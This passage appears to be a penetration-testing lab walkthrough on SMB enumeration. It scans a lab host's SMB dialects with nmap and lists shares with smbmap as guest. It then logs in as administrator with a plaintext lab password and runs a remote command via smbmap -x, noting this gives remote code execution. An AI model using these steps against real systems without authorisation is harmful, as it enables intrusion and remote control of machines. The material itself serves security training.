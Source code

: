 * SMB port `445` is open, list the SMB protocols

```bash
nmap -p445 --script smb-protocols 10.2.21.128
```

```bash
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|_    3.02
```

* Enumerate the target machine with **`smbmap`**

```bash
smbmap -u guest -p "" -d . -H 10.2.21.128
```

```bash
[+] Guest session   IP: 10.2.21.128:445   Name: 10.2.21.128                                       
  Disk       Permissions   Comment
  ----       -----------   -------
  ADMIN$     NO ACCESS	   Remote Admin
  C          NO ACCESS	   
  C$         NO ACCESS	   Default share
  D$         NO ACCESS	   Default share
  Documents  NO ACCESS	   
  Downloads  NO ACCESS	   
  IPC$       READ ONLY	   Remote IPC
  print$     READ ONLY	   Printer Drivers
```

* Login with administrator and enumerate with `smbmap`

```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.2.21.128
```

<figure><img src="../../../.gitbook/assets/Schermata del 2023-08-06 17-20-52.png" alt=""><figcaption></figcaption></figure>

* Run a command using the smbmap `-x` option

```bash
smbmap -u administrator -p smbserver_771 -H 10.2.21.128 -x 'ipconfig'
```

> ❗ _**R**emote **C**ode **E**xecution_ (**`RCE`**) can be achieved through SMB!

* List all drives with `-L` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.128 -L
```

```bash
[+] Host 10.2.21.128 Local Drives: C:\ D:\
[+] Host 10.2.21.128 Net Drive(s):
	No mapped network drives
```
